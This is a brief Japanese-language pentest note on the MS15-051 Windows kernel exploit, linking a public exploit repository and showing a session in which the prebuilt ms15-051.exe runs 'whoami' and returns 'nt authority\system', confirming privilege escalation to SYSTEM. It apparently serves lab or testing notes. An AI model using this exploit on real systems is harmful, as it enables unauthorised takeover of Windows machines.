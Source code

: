 # MS15-051

https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051

## 動作確認済み

MS15-051-KB3045171/ms15-051.exe

```
PS C:\Windows\Temp> .\ms15-051.exe whoami
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 2220 created.
==============================
nt authority\system

```
